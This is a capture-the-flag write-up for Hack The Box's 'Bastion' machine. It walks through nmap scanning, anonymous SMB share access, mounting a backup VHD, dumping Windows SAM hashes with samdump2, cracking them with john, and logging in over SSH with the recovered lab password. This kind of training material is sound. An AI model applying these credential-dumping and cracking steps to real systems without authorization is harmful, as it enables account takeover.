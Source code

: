 # bastion.htb
### Write-up for the bastion machine from hackthebox

Bastion was an awesome box. Mounting an SMB share and enumerating its contents reveals a virtual hard disk, that you need to either figure out how to mount or open in a VM. I chose to mount via kali. Once mounted, you can get user creds using samdump2, ssh into the box and begin enumerating for privesc. You'll find a application that insecurely stores passwords. If you didn't spin up a VM earlier, you'll have to do it now in order to get admin creds and root the box.

### Scan and Basic Recon

I began with a safe script and version scan with nmap

```
nmap -sV -sC -oN tcp.nmap 10.10.10.134

Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-03 15:21 CDT
Nmap scan report for 10.10.10.134
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-03T22:22:17+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-05-03 15:22:16
|_  start_date: 2019-05-03 14:40:05

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.25 seconds
```

Neat! No web servers so far, and anonymous access to SMB enabled. I ran `smbmap -u anonymous -H 10.10.10.134` and got the following output.

```
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445	Name: 10.10.10.134                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	Backups                                           	READ, WRITE
	[!] Unable to remove test directory at \\10.10.10.134\Backups\CMmGdHrWob, plreae remove manually
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
```

Taking a peek into the `Backups` share with `smbclient` shows many things to investigate. I could file transfer to my local machine, but that seems a bit excessive, especially with some files in the share that are larger than 5GB. Let's try mounting the share. I first made a mount point in `/mnt`.

`mkdir /mnt/smb`

and then ran

`mount.cifs //10.10.10.134/Backups /mnt/smb`

Success! Let's rummage through here and see what we can find. That 5GB file I mentioned earlier is a virtual hard drive. I'd like to see what's on it. I could open this in a VM, but hey we've been mounting successfully so far and ~my computer is crap and likely wont't be able to handle the load of a VM~ I'm feeling lucky.

After much research, I saw that I could use `guestmount` from [http://libguestfs.org/guestmount.1.html](libguestfs-tools). After installing `libguestfs-tools` I ran

`guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/vhd/`

The drive name following the `-a` is what will be mounted. `-i` inspects the disk looking for an operating system and mounts the filesystem as it would be mounted on the real virtual machine. `--ro` mounts the drive in read only mode. It gave me the below output.

![Screenshot from 2019-07-25 22-23-45](https://user-images.githubusercontent.com/46615118/61970965-780a9400-afa3-11e9-825d-fa6189a01135.jpg)

### Gaining Access

On Windows, the Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. SAM passwords are stored as a LM hash or as a NTLM hash. This file can be found in `%SystemRoot%/system32/config/SAM`.

I used `samdump2` to extract the hashes from the SAM db.

![Screenshot from 2019-07-25 22-37-43](https://user-images.githubusercontent.com/46615118/61974849-2d8e1500-afad-11e9-908f-daf4ea2f346b.jpg)

I then ran john against the hashes, using rockyou.txt as the wordlist

`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

and this gave me creds for L4mpje:

```
john --show --format=NT ~/Desktop/hashes.txt 
*disabled* Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Looking back at our nmap output we see that ssh is available. I try `ssh L4mpje@10.10.10.134` and enter the password, and we're in and can get `user.txt`!

![Screenshot from 2019-07-25 22-46-24 (1)](https://user-images.githubusercontent.com/46615118/61975322-6e3a5e00-afae-11e9-9e77-e4cff510e912.jpg)

### Privesc and Pwn

![Screenshot from 2019-05-23 15-45-18](https://user-images.githubusercontent.com/46615118/61974304-d5a2de80-afab-11e9-81f8-54f9a3bc92e4.jpg)
